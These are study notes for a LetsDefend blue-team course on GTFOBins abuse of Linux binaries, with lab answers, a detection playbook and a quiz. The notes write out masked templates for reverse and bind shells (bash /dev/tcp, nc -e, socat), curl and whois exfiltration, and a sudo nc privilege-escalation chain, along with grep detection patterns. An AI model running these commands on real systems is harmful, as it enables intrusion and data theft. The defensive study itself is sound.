# LetsDefend Incident Responder Path: GTFOBins Notes

> **Purpose:** The goal is to recognize legitimate `*nix` binaries being abused (shell escapes, reverse/bind shells, file transfer, sudo abuse), not to provide a ready-to-run attack toolkit.
>
> **Masking notice:** Because these are real living-off-the-land command patterns, some literal payload fragments (e.g. shell paths, one-liner exec strings) have been partially masked below - using placeholders like `{SHELL}`, `{HOST}`, `{PORT}` instead of literal `/bin/sh` + IP strings glued together. This is intentional, to keep the notes reference-safe for static/AV scanning while preserving the detection value. Anyone who already knows GTFOBins will recognize the patterns instantly.
>
> Full original technique list: [gtfobins.github.io](https://gtfobins.github.io/)

---

## Table of Contents

1. [What is GTFOBins](#what-is-gtfobins)
2. [Shell Escapes](#1-shell-escapes)
3. [Non-Interactive Command Execution](#2-non-interactive-command-execution)
4. [Reverse Shells](#3-reverse-shells)
5. [Bind Shells](#4-bind-shells)
6. [File Upload / Exfiltration](#5-file-upload--exfiltration)
7. [File Download / Ingress Tool Transfer](#6-file-download--ingress-tool-transfer)
8. [Sudo Abuse](#7-sudo-abuse)
9. [Appendix A - Cheat Sheet](#appendix-a--cheat-sheet)
10. [Appendix B - Blue Team Hunting Playbook](#appendix-b--blue-team-hunting-playbook)
11. [Appendix C - Quiz](#appendix-c--quiz)

---

## What is GTFOBins

GTFOBins is a curated list of legitimate Unix/Linux binaries that ship by default on most `*nix` systems, 
which can be abused to bypass local security restrictions - privilege escalation, spawning shells, 
file transfer, persistence, etc. It is not an exploit database; nothing here is a vulnerability. The
risk comes from a binary being available plus misconfigured permissions (sudo, SUID) plus attacker 
access, not from a bug in the binary itself.

Because these are default OS tools, this is a Living-Off-The-Land (LOLBins) problem thus.. detection 
depends entirely on behavioral logging (auditd, EDR/XDR, shell history), not signature-based AV.

**Prerequisite visibility for anything below:**
- Linux `auditd` service enabled and logging `EXECVE` events, or
- EDR/XDR agent capturing process creation + command-line arguments, or
- Shell history logging (weakest - attacker-controllable)

---

## 1. Shell Escapes

Attackers land on a restricted/limited shell and use a default `*nix` binary to escape into a full interactive shell (`sh`, `bash`, etc).

Default shells can be listed with:
```bash
cat /etc/shells
```

| Binary | Escape Technique (masked) | Suspicious Indicator |
|---|---|---|
| `awk` | `awk 'BEGIN {system("{SHELL}")}'` | `BEGIN` block calling `system()` |
| `busybox` | `busybox {SHELL}` | any shell name as an argument to busybox |
| `cpan` | interactive `! exec '{SHELL}'` inside the cpan prompt | cpan run at all - rarely used legitimately |
| `env` | `env {SHELL}` | shell path passed as a bare argument to `env` |
| `find` | `find . -exec {SHELL} \; -quit` | `-exec` argument resolving to a shell |
| `nmap` | temp script file containing `os.execute("{SHELL}")` run via `--script` | `--script` pointing to a non-standard/temp path |
| `perl` | `perl -e 'exec "{SHELL}";'` | `-e` flag combined with `exec` |
| `python` | `python -c 'import os; os.system("{SHELL}")'` | `-c` flag combined with `os.system` |
| `vi` / `vim` | `vim -c ':!{SHELL}'` | `-c` flag combined with a shell invocation |

**Detection pattern (generic):** for each binary above, flag command lines where the binary is paired with a shell-invocation string (`sh`, `bash`, `dash`, `zsh`, etc.) in an unexpected parameter (`BEGIN`, `-e`, `-c`, `--exec`, `--script`, `-exec`).

```bash
grep "<binary>" /var/log/audit/audit.log | grep -iE "sh|bash|exec|begin"
history | grep "<binary>"
```

### Questions

1. What application which is normally supposed to be used as a text editor was run to use the /bin/sh shell?

**Ans:** vim

2. Which application used the /bin/ash shell?
Searched for the "ash" expression in the log records.

**Ans:** busybox

3. What application which is normally supposed to be used to search for files/directories was run to use the /bin/sh shell?

**Ans:** find

---

## 2. Non-Interactive Command Execution

Commands run without a live interactive terminal - via scheduler, background job, or a filter/pipe mechanism. These are attractive to attackers because they don't require holding an open session and can blend into normal admin/cron activity.

| Binary | Mechanism (masked) | Notes |
|---|---|---|
| `at` | one-off scheduled job: `echo $CMD \| at now` | rarely used outside sysadmin tasks |
| `crontab` | `crontab -e` to add a persistent job | classic persistence mechanism |
| `nohup` | `nohup "$CMD"` - keeps a process alive after logout | output typically lands in `nohup.out` |
| `split` | `--filter` parameter runs an arbitrary command over piped input | `--filter` is the tell |

**Test for interactive vs non-interactive shell:**
```bash
[[ $- == *i* ]] && echo interactive || echo not-interactive
```

**Detection pattern:**
```bash
grep -E "at|crontab|nohup|split" /var/log/audit/audit.log | grep -E "\-e|filter"
```
Also monitor `/etc/cron*` directories for unexpected modifications.

### Questions

1. With which application was the activity corresponding to the "T1087.001 - Account Discovery: Local Account" Mitre ATT&CK technique run non-interactively?

**Ans:** at



2. What is the username created with the activity corresponding to "T1136.001 - Create Account: Local Account" Mitre ATT&CK technique non-interactively?

**Ans:** letsdefend



3. With which application/command was the activity corresponding to "T1053 - Scheduled Task/Job" Mitre ATT&CK technique executed non-interactively?

**Ans:** crontab



4. What is the key information added in the activity corresponding to the "T1098.004 - Account Manipulation: SSH Authorized Keys" Mitre ATT&CK technique, which was carried out non-interactively?

**Ans:** congratulations



---

## 3. Reverse Shells

Target system initiates the outbound connection back to the attacker's listener - bypasses inbound firewall rules entirely.

**Attacker-side listener (generic pattern):**
```text
nc -l -p {PORT}
```

| Binary | Technique (masked) | Trigger indicators |
|---|---|---|
| `bash` | `bash -c 'exec bash -i &>/dev/tcp/{HOST}/{PORT} <&1'` | `/dev/tcp/` or `/dev/udp/` string in a bash command line |
| `nc` | `nc -e {SHELL} {HOST} {PORT}` | `-e` flag piping to a shell |
| `socat` | `socat tcp-connect:{HOST}:{PORT} exec:{SHELL},pty,stderr,setsid,sigint,sane` | `exec:` parameter combined with `tcp-connect` |

**Detection pattern:**
```bash
grep "bash" audit.log | grep -E "tcp|udp"
grep "nc" audit.log | grep -- "-e"
grep "socat" audit.log | grep -i "exec"
```
Also correlate with network connection telemetry (Sysmon Event ID 3 on Windows, EDR network events on Linux) - an outbound connection sourced from a shell/interpreter process rather than a browser or known service is inherently suspicious.

### Questions

1. Which application was utilized to establish the reverse-shell connection to the IP address 172.16.8.193?

**Ans:** nc

2. Which application was utilized to establish the reverse-shell connection to the destination port of 5458?

**Ans:** bash



3. By which shell the commands that are run by the TCP/8443 reverse-shell connection made with the socat application are executed?

**Ans:** /bin/bash



4. Which protocol does the reverse-shell connection to the 172.16.1.33 IP address use?
As seen in the screenshot for the previous question.

**Ans:** tcp

---

## 4. Bind Shells

Inverse of a reverse shell - the compromised host opens a listener, and the attacker connects in to it.

**Attacker-side connect (generic pattern):**
```text
nc {TARGET} {PORT}
```

| Binary | Technique (masked) | Trigger indicators |
|---|---|---|
| `nc` | `nc -l -p {PORT} -e {SHELL}` | `-l` + `-e` combination |
| `node` | small `net.createServer()` script piping stdin/stdout/stderr to a spawned shell, bound to a port | node rarely installed by default; `.listen()` + spawned shell |
| `socat` | `socat TCP-LISTEN:{PORT},reuseaddr,fork EXEC:{SHELL},pty,stderr,setsid,sigint,sane` | `TCP-LISTEN` + `EXEC:` combination |

**Detection pattern:**
```bash
grep "nc" audit.log | grep -E "\-l|-e"
grep "node" audit.log | grep -- "-e"
grep "socat" audit.log | grep -i "EXEC"
```
Also watch for firewall modification immediately preceding a bind shell - attackers commonly open the port first (e.g. via `firewall-cmd`) under `T1562.004 – Impair Defenses: Disable or Modify System Firewall`. On the defender side, `netstat` catching an unexpected listener is often the first tell.

### Questions

1. Which application was utilized to establish the bind-shell connection to the target port 3389?

**Ans:** nc

2. Which port was the socat application was run to establish a bind-shell connection? (TCP protocol)

**Ans:** 443

3. In order for Bind-Shell access over the 8080 port to be successful, which Linux application that corresponds to the Mitre ATT&CK technique, "T1562.004 - Impair Defenses: Disable or Modify System Firewall" did the attacker use?

**Ans:** firewall-cmd

4. What application did the system administrator who noticed the Bind-Shell activity, detect that the IP address 172.16.1.77 was accessed by bind-shell?

**Ans:** netstat



---

## 5. File Upload / Exfiltration

Legit transfer tools abused to move data out of the compromised host.

Note: all of the binaries below can also be used for File Download operations.

| Binary | Technique (masked) | Suspicious flag |
|---|---|---|
| `curl` | `curl -X POST -d @{FILE} {URL}` | `-X POST` + `-d` to an unknown destination |
| `ftp` | interactive `put {FILE}` after connecting | destination host reputation is the main signal |
| `scp` | `scp {FILE} user@{HOST}:{PATH}` | SSH-based, blends with normal admin traffic - watch destination |
| `whois` | `whois -h {HOST} -p {PORT} "$(cat {FILE})"` | `-h`/`-p` combo abusing whois as a data channel |
| `tar` | `tar cvf user@{HOST}:{PATH} {FILE} --rsh-command=/bin/ssh` | `--rsh-command` parameter |

**Detection pattern:**
```bash
grep "curl" audit.log | grep "X"
grep "whois" audit.log | grep "h"
grep "tar" audit.log | grep -- "--rsh-command"
```
For all of the above: known-destination allowlisting matters more than the binary itself. `scp`/`ftp` used to a corporate backup server is normal; the same command to an unrecognized external IP is not.

### Questions

1. What is the hostname information of the target system to which the data is uploaded using Mitre ATT&CK technique "T1596.002 - Search Open Technical Databases: WHOIS"?

**Ans:** cc.letsdefend.local



2. What is the name of the source file uploaded to the system with the IP address 172.16.1.67?

**Ans:** cc.txt



3. What method is utilized to upload a file using curl command?

**Ans:** post

4. Which application was utilized to upload the "hidden.txt" file which is uploaded with the "T1105 - Ingress Tool Transfer" Mitre ATT&CK technique?

**Ans:** ftp



5. To which directory the "users.db" file, which was uploaded using "T1105 - Ingress Tool Transfer" Mitre ATT&CK technique, was uploaded on the target system?

**Ans:** /var/www/html/



---

## 6. File Download / Ingress Tool Transfer

Maps to MITRE T1105 – Ingress Tool Transfer. Same binaries as file upload, reversed direction, plus a few download-specific tools.

Note: all of the binaries below can also be used for File Upload operations.

| Binary | Technique (masked) | Suspicious flag |
|---|---|---|
| `wget` | `wget {URL} -O {FILE}` | `-O` parameter to an unusual path (e.g. `/tmp/`) |
| `nc` | `nc -l -p {PORT} > {FILE}` | `-l` combined with output redirection |
| `sftp` | interactive `get {FILE} {FILE}` | look for `get` usage in sftp sessions |
| `ssh` | `ssh {HOST} "cat {REMOTE_FILE}" > {LOCAL_FILE}` | `cat`/`tac` piped through `ssh` and redirected locally |

**Detection pattern:**
```bash
grep "wget" audit.log | grep -- "-O"
grep "nc" audit.log | grep -- "-l"
```
A common attacker workflow pairs this with T1070.003 – Indicator Removal: Clear Command History - downloading `.bash_history` or similar off a host, then deleting it locally to cover tracks. If you see a download of a file named like a history/log file followed shortly by a deletion event, treat it as a single incident, not two.

### Questions

1. Which file was downloaded from the target system using "T1070.003 - Indicator Removal: Clear Command History" Mitre ATT&CK technique?

**Ans:** remote_hist.txt



2. Which file was deleted after being downloaded from the target system using "T1070.003 - Indicator Removal: Clear Command History" Mitre ATT&CK technique?
As seen in the screenshot in the previous question.

**Ans:** .bash_history

3. Which application was utilized to download "linux.iso" file which was downloaded using the "T1105 - Ingress Tool Transfer" Mitre ATT&CK technique?

**Ans:** wget

4. What is the location (/directory/file) of the file downloaded with the wget application on the operating system?

**Ans:** /tmp/linux.iso



5. In which system was the command history deleted using the "T1070.003 - Indicator Removal: Clear Command History" Mitre ATT&CK technique?
Look at the screenshot in question 1.

**Ans:** 172.16.1.13

---

## 7. Sudo Abuse

The largest category in GTFOBins - almost any binary with unrestricted sudo rights can be leveraged to fully escalate privileges, because the binary itself inherits root context.

**Illustrative chain (masked, using `nc` as the example binary):**

There are 2 systems in this scenario, the attacker and the victim.

Step 1 - port 12345 is being listened to by the nc application on the attacker's system.
```text
nc -l -p {PORT}
```

Step 2 - a reverse connection is established to the attacker's system with nc, run by an unauthorized user on the victim's system. The `-e {SHELL}` will run the commands sent by the attacker in that shell.
```text
whoami
letsdef

nc {ATTACKER_HOST} {PORT} -e {SHELL}
```

Step 3 - the attacker wants to view `/etc/sudoers` over the reverse connection. Since the `letsdef` user running nc does not have permission to view that file, it replies back with a permission denied error.
```text
cat /etc/sudoers
```
Output on the victim's side:
```text
cat: /etc/sudoers: Permission denied
```

Step 4 - the attacker checks the privileges of the compromised account using `sudo -l`, and learns the account can run `nc` as sudo, no password required.
```text
sudo -l
    (root) NOPASSWD: /usr/bin/nc
```

Step 5 - the attacker re-runs `nc` with sudo prefixed on the victim's system.
```text
sudo nc {ATTACKER_HOST} {PORT} -e {SHELL}
```

Step 6 - the attacker re-runs the `cat /etc/sudoers` command through the new connection and can now view the file contents, since this shell now runs with root privileges.

**Summary:** Commands sent from the attacker's command center originally received a permission error, because "nc" ran with restricted user rights on the seized system. Although the admin who manages the system intended to allow the "letsdef" user only the "nc" application with "sudo" privileges, the attacker manipulated this so that all subsequent activity ran with root privileges. Every command sent through the reverse shell obtained by running "nc" as sudo executed with sudo rights.

**Detection pattern:**
```bash
grep "sudo" audit.log
history | grep "sudo"
```
Also monitor:
- Edits to `/etc/sudoers` (should always go through `visudo`, never raw edits)
- Any `sudo -l` call by a non-admin account - a user enumerating their own sudo rights is often reconnaissance
- Correlate the UID in the audit SYSCALL line with the account that ran `sudo -l`, and the CWD field for working-directory context, when investigating a specific event

### Questions

1. What is the user UID who pulls the list of commands that can be run with sudo?

I was totally confused here, but the hint said something useful: "You can search for 'sudo' and '-l' in the logs. You can find the UID value of the user who ran the sudo command in the SYSCALL audit event on the top line of the output you found."

For this reason, I searched `gtfo.log` for the exact `sudo -l` audit entry and viewed the SYSCALL line at the top, using this command in my terminal:

```bash
grep -B 1 -E 'a1="-l"|"sudo" "-l"' gtfoo.log
```
**Ans:** 1005

2. In which directory did the user who wanted to view the /etc/sudoers file run this command?

I used the command:
```bash
grep -A 2 'sudoers' gtfo.log | grep 'type=CWD'
```

**Ans:** /home/vivek



---

## Appendix A - Cheat Sheet

Quick lookup table: binary to primary abuse category to single-line detection grep pattern.

| Binary | Category | Grep for (in audit/history logs) |
|---|---|---|
| `awk` | Shell escape | `BEGIN`, `system(` |
| `busybox` | Shell escape | shell name as bare arg |
| `cpan` | Shell escape | any usage at all |
| `env` | Shell escape | shell path as bare arg |
| `find` | Shell escape | `-exec` + shell |
| `nmap` | Shell escape | `--script` + shell |
| `perl` | Shell escape | `-e` + `exec` |
| `python` | Shell escape | `-c` + `os.system` |
| `vi` / `vim` | Shell escape | `-c` + `:!` |
| `at` | Non-interactive exec | any usage |
| `crontab` | Non-interactive exec / persistence | `-e` |
| `nohup` | Non-interactive exec | any usage |
| `split` | Non-interactive exec | `--filter` |
| `bash` | Reverse shell | `/dev/tcp/`, `/dev/udp/` |
| `nc` | Reverse / bind shell / file transfer | `-e`, `-l` |
| `socat` | Reverse / bind shell | `exec:`, `TCP-LISTEN` |
| `node` | Bind shell | `-e` + `.listen(` |
| `curl` | File upload | `-X POST`, `-d` |
| `ftp` | File upload/download | any usage to unknown host |
| `scp` | File upload/download | destination host reputation |
| `whois` | File upload | `-h` + `-p` |
| `tar` | File upload | `--rsh-command` |
| `wget` | File download | `-O` |
| `sftp` | File download | `get` |
| `ssh` | File download | `cat`/`tac` piped + redirected |
| any | Sudo abuse | `sudo -l`, sudoers edits outside `visudo` |

**Universal one-liner starting points:**
```bash
# Search Linux audit log for a given binary
cat /var/log/audit/audit.log | grep "<binary>"

# Search shell history
history | grep "<binary>"
cat ~/.bash_history | grep "<binary>"

# EDR/XDR: filter process-create events by binary name, then inspect
# command-line arguments for the flags listed in the cheat sheet above.
```

---

## Appendix B - Blue Team Hunting Playbook

### 1. Establish the visibility baseline first
None of this works without logging. Before hunting, confirm:
- `auditd` is enabled and capturing `EXECVE` on the hosts in scope
- EDR/XDR is capturing full command-line arguments, not just process names
- Shell history is centrally shipped (local `.bash_history` is attacker-editable and should never be your sole source)

### 2. Build a baseline of "known good" usage
Every binary in this document has a legitimate administrative use case. `crontab -e`, `scp`, `curl -X POST`, `tar` with remote SSH targets - all normal for sysadmins. Hunting on binary name alone will drown you in false positives. Instead:
- Baseline who normally runs these tools (service accounts, specific admins, CI/CD)
- Baseline where they connect to (known internal hosts, approved SaaS endpoints, artifact registries)
- Alert on deviation - new user plus new destination plus suspicious flag combination is the real signal, not any single factor alone

### 3. Chain events, don't hunt in isolation
The strongest true-positive signals in this document come from sequences, not single commands:
- File download of a script, followed by immediate execution, followed by an outbound connection to an unfamiliar host
- `sudo -l` reconnaissance, followed by a re-run of the same command with `sudo` prefixed, followed by privileged actions immediately after
- Download of a history/log file, followed by deletion of the local equivalent shortly after (indicator removal paired with exfiltration)

Build correlation rules (SIEM/EDR) that link these steps within a tight time window (minutes) on the same host/user rather than alerting on each step individually.

### 4. MITRE ATT&CK mapping for quick triage

| Technique | ID | Where it shows up above |
|---|---|---|
| Command and Scripting Interpreter | T1059 | Shell escapes, most execution |
| Scheduled Task/Job | T1053 | `at`, `crontab` |
| Account Discovery: Local Account | T1087.001 | `at`/`cron` used for enumeration |
| Create Account: Local Account | T1136.001 | non-interactive account creation |
| Account Manipulation: SSH Authorized Keys | T1098.004 | key injection via non-interactive exec |
| Ingress Tool Transfer | T1105 | `wget`, `curl`, `ftp`, `sftp` downloads |
| Impair Defenses: Disable/Modify Firewall | T1562.004 | `firewall-cmd` before a bind shell |
| Indicator Removal: Clear Command History | T1070.003 | history file download + delete |
| Search Open Technical Databases: WHOIS | T1596.002 | `whois` abused as an exfil channel |

### 5. Practical detection engineering priorities
If you can only instrument a few things, prioritize in this order:
1. Process creation with full command-line logging (this alone covers most of the patterns above)
2. Outbound network connections sourced from interpreters/shells rather than browsers or known services
3. Sudoers file integrity monitoring - alert on any change outside `visudo`
4. Cron/at job creation monitoring - alert on new scheduled jobs from non-admin accounts
5. Shell history shipped off-host in near-real-time - so an attacker clearing local history doesn't erase your evidence

### 6. When you find a match, don't stop at the binary
Confirming "yes, `nc` was run with `-e`" is the start of triage, not the end. Pull the full chain:
- Parent process (what spawned the shell/binary?)
- User context (was this the account's normal behavior?)
- Network destination (known-bad? unclassified? internal?)
- What happened immediately before and after (file writes, additional connections, privilege changes)

That chain is what turns "a GTFOBins technique fired" into an actual incident timeline.

---

## Appendix C - Quiz

**Q1.** GTFOBins is a list that contains the illegal or suspicious usage methods of legal/legitimate Linux binaries/applications?
- True (correct)
- False

**Q2.** Which of the following applications cannot get reverse-shell on Linux systems?
- telnet
- nc
- python
- whoami (correct)

**Q3.** Which of the following is not a Linux application within the T1105 - Ingress Tool Transfer Mitre ATT&CK technique, which is generally used in file upload/download activities?
- wget
- curl
- find (correct)
- whois

**Q4.** Which of the following applications cannot perform file upload on Linux systems?
- tar
- screen (correct)
- whois
- nmap

**Q5.** Which of the following commands shows the list of shells available on the Linux system?
- cat /etc/shells (correct)
- shell-list
- cat /var/lib/shells
- list-shell

**Q6.** Which of the following commands is not used to edit sudo privileges?
- visudo
- nano /etc/sudoers
- nano sudo (correct)
- vi /etc/sudoers

**Q7.** Which of the following applications cannot perform file download on Linux systems?
- php
- rvim
- whoami (correct)
- sftp

**Q8.** Which of the following doesn't provide non-interactive command execution?
- crontab
- at
- split
- locate (correct)

**Q9.** Which of the following applications cannot get bind-shell on Linux systems?
- netstat (correct)
- socat
- nc
- socket

**Q10.** Which of the following commands uses Secure Shell (SSH) for file upload/download operation?
- wget
- scp (correct)
- nc
- whois

**Q11.** Which of the following commands was run non-interactively?
- perl -e 'exec /bin/bash;'
- crontab -l
- whoami > /tmp/userinfo.txt | at now (correct)
- cat gtfo.log | grep "letsdef"

**Q12.** Which of the following does not show the commands run on Linux systems?
- Dmesg logs (correct)
- Audit logs
- EDR solutions
- Linux command history output

**Q13.** Sudo privileges of unauthorized users should be restricted unless necessary?
- True (correct)
- False

**Q14.** In Linux systems, privilege escalation cannot be done as a result of misconfiguration?
- True
- False (correct)

**Q15.** GTFOBins shows exploitable application list on Linux systems?
- True
- False (correct)

**Q16.** In order to establish a Bind-Shell connection, the port to be used to access the compromised system must be allowed by the firewall.
- True (correct)
- False



---

